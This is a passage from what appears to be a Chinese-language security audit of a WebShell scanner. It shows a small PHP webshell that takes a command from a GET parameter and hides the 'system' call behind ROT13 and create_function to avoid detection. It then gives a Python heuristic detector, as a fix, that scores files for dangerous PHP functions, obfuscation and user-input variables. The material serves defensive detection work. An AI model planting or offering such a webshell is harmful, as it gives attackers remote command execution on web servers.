 3. 使用编码和解码：
```php
<?php
// 使用自定义编码绕过
$cmd = isset($_GET['cmd']) ? $_GET['cmd'] : 'id';
$enc = str_rot13('flfgrz'); // system的rot13编码
$ref = create_function('', "return $enc('$cmd');");
$ref();
?>
```

**修复建议**:
1. 实现基于行为和启发式的检测：
```python
def check_file_behavior(self, file_path):
    """基于行为分析的WebShell检测"""
    risk_level = 0
    risk_functions = {
        # 高危函数
        'high': ['system', 'exec', 'shell_exec', 'passthru', 'popen', 'proc_open', 
                'eval', 'assert', 'create_function', 'ReflectionFunction'],
        # 中等危险函数
        'medium': ['base64_decode', 'gzinflate', 'str_rot13', 'gzuncompress', 
                  'preg_replace', 'file_get_contents', 'file_put_contents'],
        # 低风险函数，通常与其他函数组合时危险
        'low': ['curl_exec', 'fopen', 'include', 'include_once', 'require', 'require_once']
    }
    
    # 读取文件内容
    content = public.readFile(file_path)
    if not content:
        return 0
    
    # 检查高危函数
    for func in risk_functions['high']:
        if re.search(r'\b' + func + r'\b', content, re.I):
            risk_level += 10
    
    # 检查中等危险函数
    for func in risk_functions['medium']:
        if re.search(r'\b' + func + r'\b', content, re.I):
            risk_level += 5
    
    # 检查低风险函数
    for func in risk_functions['low']:
        if re.search(r'\b' + func + r'\b', content, re.I):
            risk_level += 2
    
    # 检查动态变量构造
    if re.search(r'\$[a-zA-Z0-9_]+\s*\.=|\$[a-zA-Z0-9_]+\s*\.\s*\$', content):
        risk_level += 8
    
    # 检查$_POST, $_GET等输入变量
    if re.search(r'\$_(POST|GET|REQUEST|COOKIE|SERVER)', content, re.I):
        risk_level += 7
    
    # 检查可疑的Base64编码字符串
    if re.search(r'[a-zA-Z0-9+/]{100,}={0,2}', content):
        risk_level += 6
    
    # 检查混淆代码
    if content.count('$') > 50 and len(content) < 1000:
        risk_level += 5
    
    return risk_level
```